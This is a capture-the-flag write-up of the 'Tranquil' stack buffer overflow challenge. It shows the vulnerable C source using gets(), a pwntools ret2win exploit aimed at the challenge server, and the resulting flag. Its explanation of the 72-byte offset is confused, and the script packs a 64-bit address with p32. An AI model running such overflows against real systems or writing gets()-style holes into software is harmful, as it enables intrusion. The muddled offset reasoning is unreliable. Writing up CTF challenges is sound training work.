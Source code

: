 
# Tranquil

Source code:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int win(){
    char flag[128];
    FILE *file = fopen("flag.txt","r");
    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(flag, 128, file);
    puts(flag);
}
int vuln(){
    char password[64];
    puts("Enter the secret word: ");
    gets(&password);
    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }
    return 0;
}
int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    vuln();
    // not so easy for you!
    // win();
    return 0;
}

```

Connect with ```nc shell.actf.co 21830``` or find it on the shell server at ```/problems/2021/tranquil```

* Hint: ```The compiler gives me a warning about gets... I wonder why.```

stacksize for vuln function is 0x40, and that for win is 0x90.. Return address rax is stored into rbp-0x8.
Hence required buffer size is: 0x90-0x40-0x8 = 72 bytes followed by address of win() function. 

# Solution

* Python code:
```
from pwn import *
r = remote('shell.actf.co', 21830)
r.recv()
r.sendline('A'*72 + p32(0x0000000000401196))
r.interactive()
```

# Flag
```actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}```

